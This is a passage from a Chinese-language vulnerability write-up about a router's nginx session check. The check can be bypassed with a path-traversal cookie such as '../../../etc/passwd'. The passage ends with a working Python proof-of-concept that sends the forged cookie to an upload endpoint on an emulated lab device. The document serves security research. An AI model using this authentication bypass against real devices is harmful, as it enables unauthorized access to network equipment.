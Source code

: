 ```nginx

	upload_pass /form-file-upload;
	upload_store /tmp/upload;
	upload_store_access user:rw group:rw all:rw;
	upload_set_form_field $upload_field_name.name "$upload_file_name";
	upload_set_form_field $upload_field_name.content_type "$upload_content_type";
	upload_set_form_field $upload_field_name.path "$upload_tmp_path";
	upload_aggregate_form_field "$upload_field_name.md5" "$upload_file_md5";
	upload_aggregate_form_field "$upload_field_name.size" "$upload_file_size";
	upload_pass_form_field "^.*$";
	upload_cleanup 400 404 499 500-505;
	upload_resumable on;
}
```

注意第14行代码，if语句会检查`/tmp/websession/token/$cookie_sessionid`文件是否存在，若存在则会将变量`$deny`设置为0以判定会话有效，否则返回403状态码。因为现在模拟环境启动起来了，所以**在登录后**可以查看`$cookie_sessionid`长什么样子，如下：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659400432237-0dfd280d-680a-4d16-8601-b204bc2a6ad4.png)

对应着浏览器cookie的session条目：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659400866940-f4efabec-66d2-4f02-969e-76b3611e2119.png)

上层目录中名为`session`的文件我也顺便展示了吧，该文件文章后续篇幅中会使用到：

```shell
root@Router:~/rootfs/tmp/websession# cat session 
{
  "max-count":1,
  "cisco":{
    "Y2lzY28vMTkyLjE2OC4yLjEvMjU4MA==":{
      "user":"cisco",
      "group":"admin",
      "time":3062,
      "access":1,
      "timeout":1800,
      "leasetime":15551960
    }
  }
}root@Router:~/rootfs/tmp/websession# 
```

因为if语句检查的是文件是否存在，并不检查文件的合法性。所以只要让`$cookie_sessionid`指向一个恒定的文件，比如`/etc/passwd`，就可以绕过该伪造登录。请注意，该问题并不是nginx配置文件不当导致的路径穿越问题，根本在于因为`if (-f /tmp/websession/token/$cookie_sessionid) {`的`$cookie_sessionid`可控导致穿越，这个问题与Linux的特性有关，比如：

![注意绿色方框](https://cdn.nlark.com/yuque/0/2022/png/574026/1659402377872-25deb423-288b-4ac8-9d8e-91001a168331.png)

写个poc测试下：

```python
import requests
url='https://192.168.2.2/upload'
headers_1={'Cookie':'sessionid=cyberangel'}					# 非法的sessionid
headers_2={'Cookie':'sessionid=../../../etc/passwd'}		# 伪造的sessionid
r_1 = requests.post(url,headers=headers_1,verify=False)
r_2 = requests.post(url,headers=headers_2,verify=False)
print(r_1.text)
print("-"*50)
print(r_2.text)
r_1.close()
r_2.close()
```
